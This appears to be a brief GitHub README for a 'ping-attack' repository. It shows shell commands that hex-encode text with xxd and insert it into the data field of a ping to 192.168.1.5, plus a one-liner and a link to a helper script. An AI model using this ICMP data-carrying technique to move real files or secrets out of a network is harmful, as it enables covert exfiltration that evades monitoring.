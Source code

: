# ping-attack

Basic Commands:

```shell
#!/bin/bash

#This will take the text "test" and convert to hex:
echo "test" | xxd -p

#output:
746573740a

#This will ping the ip address and add the hex of "test" into the data field
ping -c 1 192.168.1.5 -p 746573740a

```

or use the oneline script of:
```ping -c 1 192.168.1.5 -p $(echo -n "test" | xxd -p)
```
or use the scripts ping_payload1.sh located at:
https://github.com/yen5004/ping-attack/blob/9aae89150817556d350d8b5587fc3f86cccddde3/ping_payload1.sh
just pass the ip address and text
